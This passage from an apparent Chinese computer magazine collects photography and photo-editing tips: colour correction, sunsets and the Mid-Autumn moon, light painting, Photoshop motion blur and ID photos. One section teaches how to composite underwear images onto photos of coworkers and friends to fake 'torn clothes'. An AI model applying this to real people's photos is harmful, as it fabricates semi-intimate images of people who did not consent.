| 输出色阶(O) | 0 | 255 |

- 第五步用色相饱和度工具增加些色彩饱和度，如图17所示。最终效果如图18所示。

| 编辑(E) | 全图 |
| :--- | :--- |
| 色相(H) | 0 |
| 饱和度(S) | +15 |
| 明度(I) | 0 |

小结：遇到偏色照片第一步先用自动色阶、自动颜色来修复，对于一般的偏色都能得到校色改善。如果校色效果不理想的话，那就得用手动校色啦。在校色的工具中曲线功能最强大，用曲线校色一般都能解决。当然啦，还可以应用其它的调色工具，以及多个调色工具相结合应用。其实那些调色工具原理都差不多，大家只要用心揣摩就能掌握，做到熟练应用，校色时要抓住画面中的一些特殊以及熟悉的色彩，比如黑色、白色、绿色树木、红旗、人物的肤色等等，以此作为参照，就能做到事半功倍的效果。

## 有问必答

读者：拍照时经常发现衣服拍出来与实际不符，相片会偏色，请问是什么原因，如何避免和纠正？

回复：你这张照片的偏色是由于光线太强引起的过曝所致。在太强的日光下拍照，反差较大，衣服很容易偏色。其次，拍照时尽量选择与衣服互补的背景色，比如拍黑的用白背景，蓝的用黄背景，以此类推……

其实照片的偏色在日常拍摄中很常见。所谓的偏色是相较于正常的色彩而言的。偏色主要是拍摄时白平衡不当造成的。比如白天拍照用夜晚的白平衡就会造成偏色，还有手动测定白平衡的误差也会造成偏色效果。所以对于普通生活照拍摄而言，建议使用自动白平衡。

不过大多数的偏色是由于环境因素造成的。这个即使使用自动白平衡也没办法。比如在绿树林中拍摄人物就会偏绿色；在红色灯光环境中拍摄就会偏红色，还有曝光不足也会造成偏色。

(文/凡鱼)

## 翻转世界 酷玩摄影

之前的几次创意摄影得到了读者们的热烈反应，这次我们继续本着酷玩摄影、创意无限的原则，大搞一次让人头昏目眩的翻转世界摄影！先来看一看成片！请仔细看看，发现照片有什么玄机和不对劲没？这些照片有没有让你感觉到像进了《盗梦空间》里的那种世界任意翻转的错乱感呢？这就是欧美年轻人目前非常流行的恶搞创意摄影想法！照片没有PS没有大动手脚，只是轻轻转了一圈，世界就不一样了，下面我们就一起来解密吧！首先，准备相机一部！勇气十分加身体素质八分！以及不怕脏不怕累，酷玩的心态！然后寻找场地！场地是本次摄影中至关重要的一环！

- 场地不宜选择。
- 尽量选择有较大面积的墙壁、柱子、椅子等可以依靠的地方。
- 最后！躺下开拍！
1. 身体靠地面，腿抬起放在依靠物上，腿型尽量自然，头略微前倾，营造正常坐姿或站姿。
2. 放松表情，尽量放松脖子和四肢！因为坚持倒立拍摄的姿势，对腰腹力量、颈脖力量是一种考验，所以一定注意安全。
3. 发挥创意！享受乐趣！其实翻转照片除了坐姿站姿还有很多可以借助地势的拍摄创意！比如下图，非常高难度，是以手臂支撑整个身体，腰腹部用力抬起双腿，拍摄了多次才成功，但是成片效果异常奇妙！
4. 最后一步当然是放进电脑，点击转向！一张有趣的翻转图就完成了！

- 1. 一定要选择有参照物的场地！翻转后，需要其他事物或者人来衬托你的翻转形态，所以选择一个参照物较多的场景是必需的。草坪、篮球场等宽阔的

(文/小猴子iris)

## 拍好秋季迷人的日出日落

度过炎炎夏日，秋天来到了。不知细心的读者有没有注意到早晚景色的变化？没错，就是太阳！秋天最迷人的莫过于远山映着落日，天边醇红如醉，衬托着渐深的暮色，晚风带着清澈的凉意，随着暮色浸染，那是一种说不出的凄楚之美！如何成功拍下迷人的日出日落呢？下面介绍一些要领。从日出到日落，太阳的光线总是在不断地发生着变化。日出时的天空通常比较晴朗，此时的太阳是红色的，并逐渐变成橙色。当太阳离开地平线后，光线就开始强烈起来。所以拍摄日出的太阳，应该在太阳刚刚升起，由红变橙的时段，通常不超过1分钟。随着太阳的不断升高，其亮度也越来越大，直至变成白色的。日出的光线变化非常迅速，所以通常是非常难以捕捉的。日落的光线变化虽然也比较快，但相对日出的变化要从容一些，此时的太阳由橙转红，在太阳即将被地平线淹没之时，常常会呈绛紫色，这个过程与日出时间差不多。但是日落与日出最大的不同之处在于，当太阳刚刚落下之后，它的余辉还可以持续相当一段时间。此时如天空有云彩的话，天边有时会出现红色的光带，云彩会由红、淡红到橘红的逐渐变化，直至拍摄日出日落的基本要领如下：

1. 拍摄日出和日落其本身的曝光量并非十分严格，但测光点既不能是太阳，也不能是背景中的风光、建筑物，而应测得天空的平均值，这样就能兼顾到所有景物的曝光。因日出日落时光线变化比较迅速，拍摄时应不断地进行测光——不断地调整曝光量，尽量多拍，这是拍摄日出日落的重要手段。
2. 现在很多人使用数码照相机拍摄，它与胶卷摄影最大的不同点是不需要在镜头前加装滤色镜，建议采用“日光模式”的白平衡来拍摄，这样更能烘托出早、晚霞的氛围。
3. 拍摄日出日落时，照相机镜头的选择是非常重要的。因为不同焦距的镜头会有不同的效果产生。长焦距镜头可以把太阳拍得更大一些。(50mm)标准镜头，采用大光圈，把焦点对在前景物上，能够使太阳得到虚化，变成光晕，从使日出日落的气氛更加地浓重。至于拍摄漫天晚霞时，广角镜头是不可多得的选择了。
4. 拍摄日出日落时最忌讳的是画面会出现眩光，尤其是使用广角镜头时最容易产生。因此当在照相机视窗中发现眩光时，可以利用自身的手、随身的书本、报纸，就地取材的树枝等来遮挡住太阳的直射光线。但有时眩光也会给画面带来意想不到的好效果，就看如何驾驭了。
5. 拍摄日出日落使用三脚架是必备的设备附件。由于日出日落相对光线比较“弱”，因此相对的曝光时间会比较长，所以拍摄时一定不要忘了使用三脚架，如果带上快门线那就更好了。

(文/吴晓华)

## 巧妙化解图片“变形之痒”

当我们按照常规方法调整图片尺寸（尤其是不按比例拉伸或者挤压）时，经常发现图片中的主要对象（例如人物、建筑物、动物等）发生变形。这主要是由于当图片尺寸发生变化时，这些对象也会随之发生不规则变形。能否在任意改变图片大小时，其中的目标对象保持状态不变，并且和缩放后的图片完美融合呢？使用iResizer这款图片智能缩放软件，实现上述想法一点都不难。下载地址：http://www.iresizer.com/iResizerSetup.exe。

### 简单的使用范例

在iResizer主窗口工具栏中点击第一个按钮，打开目标图片。该图片显示一个人在山坡上滑雪，我们想仅仅减小图片的宽度，同时保证处理后图片中人物不变形。方法是点击工具栏上的带有绿色图标的按钮，同时拖动滑块，调节笔触的大小。之后将鼠标移动到图片上，在人物上拖动，画出绿色的遮罩区域，将整个人物（包括滑雪板）完整覆盖（如图1所示）。注意，根据需要不断精确调整笔触大小，这样可以更加完美地选择整个人物。最后点击菜单“Edit”→“Resize”项，在弹出窗口中选择“Custom”项，保持“Height”栏的数值不变，减小“Width”值。点击OK按钮，你会惊讶地发现变形后的图片中人物没有任何变形，整个图片完美地融合在一起（如图2所示）。

### 高级使用范例

在iResizer中打开目标图片，显示几个小孩躺在雪地上玩耍。我们想不规则调整图片的宽度和高度，同时保持图中人物不变形，而且想删除某个人物。操作方法是点击工具栏中的绿色按钮，并拖动滑块，调整笔触的大小。之后在几个人物身上拖动滑块，画出绿色遮罩区域将相关人物选中。如何删除某个人物呢？点击工具栏上带有红色图标的按钮，之后拖动滑块，调整删除区域笔触大小。之后在该人物身上拖动鼠标，画出红色的遮罩区域，将其完整选中（如图3）。然后点击菜单“Edit”→“Resize”项，在弹出窗口中选择“Custom”项，操作同上。调整完成后，可以发现图片变窄了，但是人物的大小并没有变化，而且巧妙地删除了无关的人物，使整个画面看起来非常协调（如图4所示）。

(文/郭建伟)

## 中秋之夜 拍出明空皓月

一年一度的中秋佳节又来到了，面对明空皓月，有没有想要将她拍下来的冲动呢？拍月亮可不像普通的生活照，“咔嚓一声”直接拍摄是行不通的。下面就教大家如何把握细节，将中秋圆月尽收片中！

### 拍摄前的准备

#### 相机

单反相机当然最好，如果没有，卡片机也不是不可以。

#### 三脚架

虽然可以直接手持相机拍摄，但要想获得最好的结果，无疑要使用三脚架。为相机找一个安全的云台，必须避免震动，这点很重要，稳定压倒一切嘛！

#### 选择拍摄场所

挑选合适的拍摄场所是实现高质量月亮拍摄的重要因素之一。如果只是拍摄月亮本身，周边当然是越黑越好，要避免包括路灯、交通灯、车灯等在内的任何环境光。这可能需要去偏一点的地方，比如公园的某个角落、你家楼下的小区，很可能不是拍摄的最佳位置。相反，如何除了月亮，还要拍摄天空、云层、人物，以及周围的景色，那就需要找一个合适的位置，借助这些辅助灯光，做进一步的测光，以进行合适的曝光。

#### 查看月相

如果想获得最大最圆的月亮，可去查看中国农历。中国传统认为中秋节当天的满月是一年中最大最亮的，也就是2011年9月12日。不过受太阳对月亮照射角度的影响，满月时月亮没有暗部，很难表现立体感，因为一般环形山在月面明暗交界处最明显，所以月亮还算比较圆，而且又有暗部的农历十三和十七前后是最适合拍摄的。

#### 选择晴朗的夜晚拍摄

如果天空有雾气，请不要拍摄。可别小看这点雾气，再加上点空气污染，即使你或许能看清月亮，但要想拍清楚远隔几十万公里的被摄体，基本没戏！

### 单反相机的拍摄

拍月亮必备的两个要素是尽量高的像素和尽量长的镜头焦距，因此拍摄月亮最好是用“单反相机+长焦镜头”，这样才可以捕获尽可能多的细节。不过，昂贵的长焦也不是必需的——只要参数设置合理，一样可以拍出迷人的月亮！

#### 参数设置

曝光：拍摄月亮最棘手的莫过于曝光度的设定。如果使用相机的平均测光，绝大多数会曝光过度。最简单的方法是设置相机的测光模式为点测光，对着月亮最亮的部分测光。这样可以尽量得到正确的曝光系数。当然，曝光也随着不同的月相、月亮对地平线的高度和大气所吸收的光量而变化。

ISO感光值：拍摄月亮不要用高感光，为了保证画质，最好采用100或200的低ISO。因为月亮一直在移动，长时间的曝光，往往会得到很多噪点的“模糊图像”。

月光法则：摄影大师们总结了一条专用的拍摄月光的法则，就是快门与ISO同步时，拍摄满月用F/11光圈，弦月用F/8光圈，新月则使用F/5.6光圈。当然这只是大概的曝光法则，实际拍摄时要根据当时的大气透明度及农历日子适当调整。

快门速度：使用高速快门。月亮作为一个天体，在不断运动。如果用的快门速度太慢，很易拍糊。

白平衡：设为自动。

对焦：可先用自动对焦功能大致对焦，通过液晶屏放大显示想要对焦的局部，再通过手动对焦精确合焦。

自拍模式：设置自动模式，手动拍摄可能会损失月亮的清晰度和细节。

就笔者的实践而言，拍摄满月时采用ISO100感光值，F8光圈和1/250的快门速度足够了。拍摄新月时，可减去一到两档（1/125或1/60）的快门速度，让足够的光线进入。拍摄时，因使用器材不同，恰当的曝光组合可能会有偏差，大家可对参数进行微小的调整，多次拍摄，直到得到最好的效果。

以佳能EOS60D为例，搭配18-135mm变焦镜头，拍摄农历十七的月亮。

- 支撑好三脚架，上机，调整好角度使月亮处于屏幕中心。
- 将相机设置为M档，机身设为手动对焦（MF）、点测光模式，关闭防抖功能。
- 设置ISO为100，调节光圈至5.6，按下快门随意照几张，看看是否过曝或者欠曝，调节快门时间使其正常曝光。
- 设置按下快门后延迟2秒（或使用红外遥控器/快门线）。
- 按下快门键，完成拍摄。

拍摄参数如下：

| 快门速度 | 1/125秒 | 光圈 | F6.3 |
| 焦距 | 49.2 | ISO | 80 |
| 曝光补偿 | 0.0 | 最大光圈 | F3.3 |
| 闪光 | 关 | 白平衡 | 自动 |
| 测光方式 | 点测光 | 拍摄程序 | Auto全自动档 |

### 用卡片也能拍出环形山

中秋节拍摄月亮是很有意思的事，但是只有卡片机怎么办呢？很多朋友拍出的月亮就是一张白白亮亮的面饼，细节全无！经过多次尝试，笔者发现卡片机也是能够拍出月亮的。有的朋友说还是不清楚，要知道很多卡片机的数码变焦加光学变焦也不到20倍。想要更清晰的画质又不想换相机，怎么办呢？很简单！在小DC镜头前面加个望远镜就OK了！这里说的不是普通双筒望远镜，而是天文望远镜。下面就介绍一下具体方法。一种比较简单的方法就是使用一个T型环或适配器，将相机连接到望远镜上。如果没有类似T型环的适配器，最经济的方法就是：

- 把望远镜放置到三脚架上，然后用另一个三脚架来放置相机，保持相机和望远镜的稳定。
- 把望远镜对准月亮，调到最清楚的焦距，因为它将要充当卡片机的眼睛。
- 把卡片机调至微距拍摄，这步很重要，否则是对不上焦的。
- 把相机的镜头对准望远镜的目镜，通过望远镜进行拍摄。
- 这样，就可以用小DC拍出清晰的带有环形山阴影的月亮了。
- 用这种方法，可能会略微带些晕影和降低点清晰度。不过，对于小卡片机来说，能拍出环形山已经难能可贵了。

最后，就是裁剪图像，调整对比度和亮度，进行适当的锐化。还可以题诗作画，别有一番韵味！怎么样，趁着中秋月圆，一起去拍月亮吧~~

(文/老猫)

## 秋季公园个性摄影

秋季的公园无疑是我们拍照的绝佳地点，不仅光照充足，景色也异常迷人。下面几个小技巧，教你拍出“秋天的童话”般的个性照片。

### 在树荫下逆光拍摄

秋季亮丽的阳光为拍照提供了良好的照明条件。但强烈的阳光容易使被摄者睁不开眼，而且光越强，影越深。阳光时常会把树叶投影到人物身上、脸上，造成斑驳的阴影，有损于画面的美感。怎么办呢？可以站在树荫下相对阴暗或背光的地方，让身后很明亮，这样拍出来的照片会有一种清新又明快的感觉。

### 将身姿再放到最低

试着将身姿再放到最低去拍照，蹲着甚至躺倒地上拍摄，你会发现景色更加辽阔，树木变得高大笔挺，草地更加茂盛浓密，野花看起来更艳丽，人物也显得非常高挑，配上蓝天白云……那是平日不容易发现的美！

### 尝试动态拍摄

在公园中散步、慢跑或是在草地中打个滚，这些照片看起来更自然、有生气，与秋季的景色能够更好地融合。

(文/林卯)

## 有图有真相 放大不再伤不起

对于摄影爱好者来说，数码照片的放大是一项最基本的操作。可是在源素材拍摄不理想的情况下，使用通常的工具进行放大难免会降低品质，导致图片出现锯齿或马赛克。如何尽量使放大后的图片边缘圆滑清晰呢？通过Photoshop逐步放缩当然可以实现，不过话说放大图片这样基本的操作动用PS航母级软件有些大炮打蚊子。这里，给大家介绍一款非常好用的小软件PhotoZoom Pro，能够进行相当令人满意的图片扩大操作。

PhotoZoom Pro的软件界面大体分为两部分，左边的操作区域和右边的预览区域。
1. 打开欲处理的图像，可在新尺寸区域设置新的尺寸和像素，这并不影响图像本身。
2. 在插补算法面板里选择合适的插值，如S-Spline Max、S-Spline XL等。一般直接使用预设就可达到理想的效果，如果不满意可进行微调。
这样就能得到一张放大数倍但是异常清晰且不失真的图片了，效果还是很明显的。保存时推荐TIFF格式，能有效地避免图像质量损失。

同时，PhotoZoom Pro提供了批处理操作以方便大家使用。单击“新建批量处理”按钮，即在软件的下方出现批处理面板，可以添加图像和文件夹。选择列表中的全部图片，仍然按照从上到下的操作顺序调整参数，确认列表中的更改信息后单击“运行”，弹出对话框，提示保存位置和输出格式，执行“开始批量处理”。此外，通过在线法(reshade.com)、插件法(OnOne Perfect Resize Professional Edition)等都可以改进图片放大的效果。有兴趣的读者可以亲自实践一下。(文/丰文山)

## 减法生活 用不规则拼图精简照片

你在浏览相册的时候会不会偶尔冒出“照片好多”的想法？如果你也曾有过这种念头，不如和小编一起来做生活中的减法，试试用“美图秀秀”的不规则拼图将照片化繁为简，让你的照片更具独特的视觉效果！忙碌的生活让我们无法止步，一味的“加法”让肩上的负担越来越重，不如换一种思路，为生活做“减法”，用拼图的方式去精简相册空间就是减法生活的一个体现，化繁为简的幸福就是这么触手可得，现在就去“减”起来吧！(文/秀秀)



## 轻松搜索所需照片

对于摄影爱好者来说，经常需要比较、参考不同相机所拍摄的图像。比如，在一个著名的景点拍摄时，我们会想参考一下同类照片是如何拍摄的。现在只需要一个Chrome插件，就可以根据相机型号、镜头焦距、亮度、时间等参数搜索到所需的照片。
1. 在Chrome网上应用商店中搜索“photo finder”，网址为https://chrome.google.com/webstore/search?q=photo+finder，点击“照片查找器”，即可将“照片查找器”插件安装到Chrome浏览器上。
2. 你对用佳能相机拍摄的“鸟巢”照片感兴趣吗？在“照片查找器”的搜索框中，输入“Canon 鸟巢”，即可搜索到相关的图片。
3. 还可以选取不同的镜头类型、亮度以及时间等搜索条件，进行更精细的搜索。比如，想搜索Canon EOS 5D相机所拍摄的鸟巢夜景，只需输入具体相机型号和地点，并在“亮度”栏中选取“极暗”即可。
4. 在图片的搜索结果页面，将鼠标在图片上停留，可以看到相机型号、镜头、时间、光圈等EXIF参数。(文/继伟)

## 还原网购服装的真面目

## 秋高气爽拍红叶

又到了秋高气爽的金秋时节，拍摄红叶是摄影者每年秋天的保留节目之一。那么怎样才能将红叶拍出满意的效果呢？

古有“霜叶红于二月花”的诗句，此时诸如北京的香山和八大处等地的大片红叶在阳光的照射下分外艳丽。尤其在每年的十一月，更是层林尽染姹紫嫣红，山间路旁的红叶红得各有特色和韵味。以下几个要点，将助你拍出别有韵味的红叶。

1. 首先是构图。拍摄红叶构图是最重要的环节之一，但主要是全景构图、局部构图和特写构图三种最基本的方式。在全景构图中，画面的红叶应占到整个画面的三分之二左右，同时在红叶上部能拍摄起伏的山峦和蓝天白云等背景则更好；在局部构图中，画面中的主体红叶应与陪衬的树木融为一体，并保持树木与画面的平衡感；在特写构图中，可以以一张或几张叶形和色彩比较好的红叶为主体，以临近（中、远景）的红叶为陪衬，同时要尽量拍摄出主体红叶的纹理，那是相当漂亮的特写照片了。

2. 其次是拍摄技巧。摄影爱好者使用卡片机拍摄红叶是一个相当不错的选择，因为卡片机最大的特点就在于有良好的景深效果，尤其拍摄局部红叶风光照片时更能充分发挥出它的优势。

拍摄红叶一般宜采用逆光或侧逆光，顺光拍出的红叶远不如用上述光线拍出的艳丽和漂亮。这是由于顺光拍摄会造成红叶的反光，而且顺光拍摄时，红叶上的尘土、污迹会掩盖住它的真实色彩。

3. 不同时段拍摄会产生不同的效果。早晨或傍晚拍摄红叶，由于色温比较低，此时拍出的红叶是比较和谐的暖色调；在晴有云的散射光下拍摄时，可以拍出布光非常均匀的红叶照片，这是最理想的拍摄光线；大晴天中午是不适宜拍摄红叶的，由于太阳光线强烈，往往会使拍摄出来的照片（白色光线部分）高光溢出，但如果此时用逆光拍摄红叶密集的地方，往往会拍到意想不到的星光效果，不妨可以试试。








4. 要注意曝光的要点。拍摄红叶只有采用合适的曝光才能拍摄出漂亮的照片。因为在拍摄红叶时常会有其他颜色的叶子掺杂其间，时阴时明会各占一定的比例，所以在拍摄时应以亮度偏低的部分或景物的暗部来进行测光，一旦曝光过度，通常是难以挽回的。

（文/吴晓华）

## 巧妙打造彩色多重曝光效果

在胶片时代，多重曝光魔术般无中生有的拍摄手法可以说是独树一帜。然而随着数码技术的飞速发展及后期合成的便利性，如今很多数码相机，包括专业级数码单反在内，却没有了多重曝光的功能。想要得到多重曝光效果又不会PS的亲们不用担心，今天小编就教大家利用“美图秀秀”轻松打造充满新鲜感的彩色多重曝光效果，学会了这个，就不用动辄复杂地PS啦！

首先来看下对比图。

要打造这样的效果需要大家自己准备几张原图噢，比如，站立在原地、变换不同的身体角度的照片，下面开始来和小编一起试着做做看吧！


1. 打开一张素材图，在“美化”标签下，点击“抠图”按钮，选择“自动抠图”，用抠图笔将所需的前景抠出，删除笔配合在不需要的位置划线，然后点击“完成抠图”。


2. 接着点击“色彩调整”，根据自己的喜好调整素材的色调，这里小编将素材调为偏红的色调，然后将图片设为PNG格式保存。接下来按照第一第二这两个步骤抠取另外两张素材，将俯身的素材调成绿色。





3. 点击“新建”按钮，设置画布大小为“800X600”，背景色为白色。





4. 右键插入刚才准备好的三张素材图，调整好素材的位置、大小和透明度，用鼠标右键单击素材，选择“全部合并”。

5. 选择“基础”特效下的“全彩”特效，透明度设置为50%，选择“LOMO”特效里的“经典HDR”特效，让照片效果对比更加强烈。

彩色多重曝光效果就这样轻松完成了，不用传统胶卷，不用复杂PS，效果一样创意十足，大家可以多多发挥创意，尝试用后期打造不同的效果哦！

（文/林卯）

## 让静止的遥控汽车奔跑起来


让画面上静止的遥控汽车奔跑起来，制造风驰电掣的逼真感觉——这是本期PS的话题，掌握了这个技巧就可以举一反三地运用在类似的画面上了。比如日常生活照中的跑步、骑自行车，以及其它各项运动，都可以让静止的主体动起来。

1. 在Photoshop中打开原图，复制两层，分别命名为图层1、图层2。关掉图层2前面的小眼睛隐藏该层，选择图层1，打开“菜单--滤镜--模糊--动感模糊”。对话框的“角度”是汽车运动的方向，这里用水平0度就可以了。“距离”是动感模糊的程度，也就是象征的汽车行驶的速度，这里采用85像素。具体如图3所示。
2. 点击图层面板下面“添加矢量蒙版”的图标，为图层1添加蒙版。用黑色画笔把汽车还原出来，边缘部分可以保留些模糊，这样更真实些。
3. 这样汽车的动感效果就出来了，现在发现汽车前后都有原来车体晕化的现象，后面的是正常的，前面的就不该有了。这可以复制前面正常的地方来修复。或在第一步时就用图章把汽车弄进来一些，再执行动感模糊。有人会问，那开始时为啥不直接用这个图章的方法呢？哈哈，目的就是让大家看到这个问题，重做一次还可以增加记忆哈——具体操作如图4-图7所示。
4. 现在上述的问题解决了，汽车动感效果出来了，也有了飞驰的感觉了，不过车轮看起来还是静止的。打开图层2前面的小眼睛显示该图层，分别把前后轮抠出来放在两个不同的图层中，然后再隐藏图层2。选择其中一个车轮图层，按住Ctrl键，同时用鼠标左键点击该图层，得到车轮外形的选区，为下一步旋转模糊做准备的。打开“菜单--滤镜--模糊--动感模糊”，对话框中选择“旋转”，“数量”象征着旋转速度，这里用35像素，最后整体修整一下，检查细节问题，完工！如图8所示。










## 小结

上述介绍了如何用PS让画面上静止的汽车有了动感的效果，其中用了动感模糊和径向旋转模糊，这两个滤镜在做动感的效果中是经常用到的。在前期的拍摄中可以坐在另一辆车上，速度跟被拍摄车的一样就可以拍到类似的效果啦。有何不明白之处请上CFan图形图像论坛(http://bbs.cfan.com.cn/forum-62-1.html)交流哈\~\~\~ (文/凡鱼)





## 一起来玩光绘画

专业“光绘画”画师大卫用手电筒、荧光棒等发光体拍摄的大量美丽的“光绘画”作品，令人大开眼界。

光绘画看似很神奇，其实我们普通人也一样能拍出惊艳的光绘照片。下面就让我们一起来玩光绘画！

光绘摄影属于另类摄影，追求的是特殊意境以及抽象的光影效果，分为室外和室内拍摄两种。由于要体现光效，所以一般都选择夜晚在暗房拍摄。下面分别介绍光效摄影和后期制作。

### 室外夜景拍摄

拍摄夜景时要想获得正确的曝光效果，一般都选用慢速拍摄。看现场具体的光照度，拍摄速度一般都在1秒到几十秒之间甚至更长，这种超慢速的拍摄速度，用手持相机显然是不可行的。所以为了保证拍摄清晰，就要有个三脚架了，实在没有三脚架的话可以临时找个合适的地方放稳相机进行拍摄。

单反机可以用手动挡，定好光圈，正常拍夜景效果一般选用小光圈，这样景深更长些，提高整体画面的清晰度。定下光圈后就要根据正确的曝光组合选择相应的拍摄速度啦。

如果是卡片机之类，可以选择夜景档拍摄，相机会根据正确的曝光效果选择相应的拍摄速度，当然也是慢速拍摄啦。上面说的都是如何清晰拍摄夜景的，但如何体现光绘效果呢？接下来举个例子详细说明哈\~\~\~

1. 先体验一下光绘效果，采用慢速挡，镜头对着灯光随便晃动几下，便可以得到一道道的光线，这就是最原始的光绘涂鸦的效果。
2. 找个拍摄的对象，放稳相机，调好焦距，选择正确的曝光组合。这时就可以按快门了，拍摄夜景建议用自拍档，这样可以减少按快门振动的影响。这张曝光组合是：光圈11、速度13秒，现在可以看到正常的夜景拍摄效果啦。
3. 接下来要用些拍摄技巧来体现出光绘的效果，照样用刚才的拍摄速度或者再慢点，开始拍摄后，嘴里从1开始数到9，大概就是9秒时间，还剩余三秒的时候，马上拿着相机进行波浪运动，直到拍摄结束。这个大家多操作几次就熟练了，反正数码相机拍不好可以马上删除掉重新拍摄，直到自己满意为止。
4. 可以看到光绘的效果已经拍摄出来了，哈哈，是不是感觉很神奇呀！由于现场拍摄无法一次性做得很理想的效果，比如有些光绘的位置不太理想以及一些多余的光绘要去掉，这就要借助PS后期来完善了。分别打开一张正常的夜景照片和一张光绘的照片，把光绘的照片拉到正常夜景照片的上面，打开图层面板下面“添加图层蒙版”的图标为上层光绘照片添加蒙版，用黑色画笔把不需要光绘的地方涂掉，如果涂错了可以用白色的画笔进行还原，这就是蒙版好用的缘故啦。期间可以根据需要变换画笔的硬度和透明度，以达到自然的效果。
5. 掌握了光效的拍摄技巧，大家可以举一反三地运用不同的技法，比如采用镜头的推拉、转圈以及各种各样的移动方式就可以得到许多意想不到、匪夷所思的光绘效果。

### 暗室拍摄

1. 尽量在晚上光线昏暗时进行拍摄，如果有暗室的话白天也可以拍摄。主要借助于发光小道具，比如手电筒、荧光棒、发光二极管等等凡是能发光的都可以尝试哈。首先找个合适的地方放稳相机，单反机要调好焦距，拍摄速度一般可以定在5秒左右，看具体情况而定。然后就可以借助发光小道具在镜头前进涂鸦啦。
2. 掌握了暗室光绘的方法后，大家可以举一反三再利用后期PS制作出更加炫目有创意的光绘作品。

小结：以上详述了外景和室内暗房拍摄光绘的方法以及后期制作的技巧，大家可以根据这个思路举一反三地制作出更多绚丽多彩的光绘作品。更多的光摄影作品请访问 http://blog.sina.com.cn/s/blog_6fe409a301C0y4fc.html欣赏，有何不明白的请到CFan图形图像论坛交流\~\~\~ (文/凡鱼)

## 撕掉他们的衣服

原为iOS游戏的“撕衣服”组照最近风靡网上，主要来自“撕掉模特的衣服露出真相”的创意，两张照片前后重叠之后的创意非常诱人。今天就教大家如何制作生活中的场景，撕掉同事及好友的衣服。

要制作撕衣的效果，首先要找张穿内衣的素材，身材和拍摄的角度要跟制作对象差不多，男的为了增加趣味可以找有胸毛的照片。

### 具体步骤如下

1. 首先制作内衣素材合成。在PS中分别打开原图和素材，用套索工具在素材中根据所需做个大体的选区（如图4所示），然后拉到原照的上层，命名为“图层1”（如图5所示）。发现方向相反了，点击“菜单—编辑—变换—水平翻转”，移动到合适的位置，并用变形工具调整好大小（如图6所示）。









2. 发现要合成的素材和原图的色调有差异，点击图层面板下面“创建新的调整层”图标，为图层1添加曲线和色彩平衡工具，把新合成进去的皮肤和原有皮肤调整一致。调色工具有很多，选择自己熟悉的好，如图7、图8所示。





3. 点击图层面板下面“添加图层蒙版”为图层1添加蒙版，修整边缘与原图相融合。用黑色画笔涂抹是隐藏图层1的画面，如果操作错误的话，用白色画笔可以还原。叠加图层的结合处要降低画笔的不透明度和硬度，这样可以更好地融合。如图9所示。

4. 至此，内衣合成完毕，这一步开始制作撕纸效果。用套索工具画出撕纸选区，把选区储存为通道，以便于后面调用。复制背景层放置于图层1的上面，命名为“图层2”。打开通道面板，选择选区通道，点击面板下面“把通道转为选区”的图标，载入选区，然后点击RGB通道，再回到图层面板。选择图层2，按DEL键删除，如图10所示。

5. 在图层2下面新建一透明层，命名为“图层3”。


6. 跟上面的方法一样的，载入保存在通道里的选区。在图层2上面新建一透明层，填充白色。打开“菜单—选择—修改—收缩”，在“收缩选区”对话框中，收缩量选择7个像素左右，按DEL键删除，这样就有了撕纸的白边效果了，可以用“菜单—滤镜—素描—撕边”来增加些效果。最后检查一下整体效果，修整一下细节问题，完工。










### 小结

以上介绍了撕衣的制作方法，大家可以举一反三进行不同场景下有趣的合成制作。需要注意的是素材的选择，要根据原图人物的拍摄角度，身体姿态来选择，这样合成的效果才会尽可能地自然真实。素材大家可以到昵图网去搜索下载，有何不明白的请到论坛探讨交流。

## 拍出美丽帅气证件照

我们常常会听到周围的朋友抱怨自己的证件照“不好看，不像本人，照丑了”。即使是活色生香的大美女，也通常会大呼“证件照傻死了！”。难道就不能拍出美美的证件照吗？非也，只要用心，一切皆有可能。下面就跟随笔者一起来拍一张美丽帅气的证件照！

### 穿什么去拍照

夹克？No，看一下图1中的领子，是不是很别扭。圆领T恤？虽然穿上它很舒服，能令你的脖子看起来长些，但是作为证件照来说还是太过休闲了。带帽衫？更不要穿，不仅领口不容易平整，整个人也看上去臃肿。衬衫似乎是个不错的选择——前提是你能驾驭它。有些人穿上衬衫，自己先就不自然起来。此外还有些人穿上衬衫后，由于领子上翘会显得脖子短粗。如果你适合穿衬衫，那么拍照时请记得一定要解开第一颗扣子，否则会显得很呆板，同时还要保证领口和衬衫的平整，最好提前熨烫一下。那么，什么衣服是拍证件照的最佳选择呢？答案就是——翻领T恤！它既没有圆领T恤的过于随意，也没有衬衫的正经和古板，而且V字领的翻领T恤还能令你的脖子显得欣长。


### 穿什么颜色的衣服

下一个问题是穿什么颜色的衣服拍照合适。其实证件照的背景无外乎白、红、蓝三种。无论何种背景，记得衣服的颜色一定要和背景成强烈对比，千万不要和背景同色！以白色背景为例，穿红色、黑色、深灰色、深蓝色等深色衣服效果都不错；如果背景颜色为淡蓝色，穿白色、红色服装就合适；红色的背景应选择黑、白、灰等不太艳的颜色！


### 表情可以再自然些吗

很多人都有拍出笑容很假、表情很不自然的经历吧？怎么才能让表情更自然些呢？有两个要点。第一就是不要提前“示笑”。摄影师通常会让我们摆好表情，然后喊“1，2，3”。等到按动快门的时候，难免表情僵硬、笑容虚假。我们可以等到2的时候再开始微笑，同时要尽量做到心里笑。如果只会脸上笑，那面部表情肯定不舒展、不自然，只有心里想着笑，把内心的喜悦自然流露出来，脸部的表情才会神采飞扬。另外，不一定非要张大嘴露出牙齿笑啊，摆出你最舒服、最自然的表情即可。一张有笑意的脸远胜过一副咧着嘴的虚假笑脸。要注意的是，脸部放松的同时，身体不能完全松懈，还是要保持收腹挺胸，下颌微收。


### 眼睛看哪里才有神

第一张照片中的MM的眼睛不小，为何看起来睡意蒙蒙没有神采呢？原因嘛，就在于眼睛注视的方位。我们拍照时摄影师通常会指着镜头，让被拍者“看这里”。没错，看镜头可以保证你的眼睛是张开的，但我们要让眼睛睁到最大，看起来炯炯有神，就要往上看——镜头上方大约5厘米的高度，这样我们的眼睛看起来就完全张开了。看第二张照片中MM的眼睛是不是很大很有神呢？



### 化妆的奇效

